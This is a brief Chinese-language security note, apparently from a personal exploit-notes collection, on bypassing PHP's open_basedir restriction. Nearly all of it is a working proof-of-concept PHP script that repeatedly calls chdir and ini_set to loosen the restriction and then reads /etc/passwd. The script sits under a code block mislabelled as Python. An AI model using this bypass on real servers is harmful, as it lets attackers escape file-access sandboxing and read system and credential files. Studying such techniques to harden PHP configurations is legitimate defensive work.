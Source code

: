 # 利用ini_set和chidr绕过open_basedir

## 利用ini_set和chidr绕过open_basedir

### 参考

- twitter
- https://xz.aliyun.com/t/4720

### 测试

```python
<?php
chdir('subDir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
```